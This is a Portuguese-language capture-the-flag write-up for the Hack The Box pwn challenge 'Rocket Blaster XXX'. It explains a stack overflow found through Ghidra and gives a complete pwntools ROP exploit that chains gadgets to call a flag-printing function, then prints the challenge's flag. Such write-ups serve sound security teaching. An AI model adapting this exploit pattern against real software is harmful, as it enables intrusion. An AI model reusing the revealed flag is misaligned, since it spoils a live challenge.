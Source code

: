 # WriteUp: Rocket Blaster XXX

## Descrição do Desafio:
**Autor**: [w3th4nds](https://app.hackthebox.com/users/70668) \
**Plataforma**: [Hack The Box](https://app.hackthebox.com/challenges/664) \
**Categoria**: Pwn \
**Dificuldade**: Fácil \
**Data**: 2024 \
**Descrição**:
> Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
O desafio não fornece código-fonte, e executando o executável vemos que podemos inserir algum *input*. Após isso o programa encerra a execução.

```bash
Prepare for trouble and make it double, or triple..

You need to place the ammo in the right place to load the Rocket Blaster XXX!

>> HawkSec_Best_Team

Preparing beta testing..
```

Analisando o assembly pelo **Ghidra**, podemos perceber que o código se resume basicamente a função `main()` que chama uma função para definir uns valores iniciais e chama outra para imprimir o banner, por fim chama a `read()` para ler a entrada do usuário.

{% code tittle="main" overflow="wrap" lineNumbers="true" %}

```c
undefined8 main(void)

{
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  banner();
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  fflush(stdout);
  printf(
        "\nPrepare for trouble and make it double, or triple..\n\nYou need to place the ammo in the right place to load the Rocket Blaster XXX!\n\n>> "
        );
  fflush(stdout);
  read(0,&local_28,0x66);
  puts("\nPreparing beta testing..");
  return 0;
}
```

{% endcode %}

Porém, podemos notar mais duas outras coisas. A primeira é que o *buffer* pode ser estourado por meio da quantidade informada na função `read()`, e a segunda é que existe uma função denominada `fill_ammo()` que imprime a **flag** caso seus parâmetros sejam iguais a `0xdeadbeef`, `0xdeadbabe`, e `0xdead1337`.

### 2. Exploit
Este desafio consiste no *exploit* conhecido como **ROP**, pois nosso objetivo é controlar o fluxo de retorno da função `main()`, de forma que seja possível retornar para instruções que nos permitam modificar o valor de registradores específicos, para definirmos os parâmetros, e por fim retorne para a função `fill_ammo()`.

{% hint style="info" %}

**Nota:** Se o executável fosse **32-bits** o *exploit* seria apenas um *buffer overflow*, pois nessa arquitetura os parâmetros são passados pela pilha.

{% endhint %}

Como o executável não contém a proteção `PIE`, não precisamos nos preocupar com vazar algum endereço, e podemos verificar a existência dos *gadgets* através do comando `ROPgadget --binary=rocket_blaster_xxx`. 

Por meio do comando, verificamos que existe os *gadgets* para os parâmetros, e por fim, podemos identificar a quantidade de *bytes* que devemos escrever com lixo para chegar no endereço de retorno por meio do **pwndbg**, um *breakpoint*, e um *buffer* estourado.

{% code tittle="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./rocket_blaster_xxx")
p = remote("ip", porta)
#p = process()

# ROP gadgets.
pop_param1 = 0x000000000040159f
pop_param2 = 0x000000000040159d
pop_param3 = 0x000000000040159b
# Parâmetros.
param1 = 0xdeadbeef
param2 = 0xdeadbabe
param3 = 0xdead1337
# Payload
payload = flat(
    "A" * 40,
    p64(pop_param1),
    p64(param1),
    p64(pop_param2),
    p64(param2),
    p64(pop_param3),
    p64(param3),
    p64(0x000000000040101a), # instrução ret para alinhar a pilha
    p64(elf.sym["fill_ammo"])
)

p.sendlineafter(b">> ", payload)

print(p.recvall().decode())
```

{% endcode %}

### Flag
`HTB{b00m_b00m_b00m_3_r0ck3t5_t0_th3_m00n}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)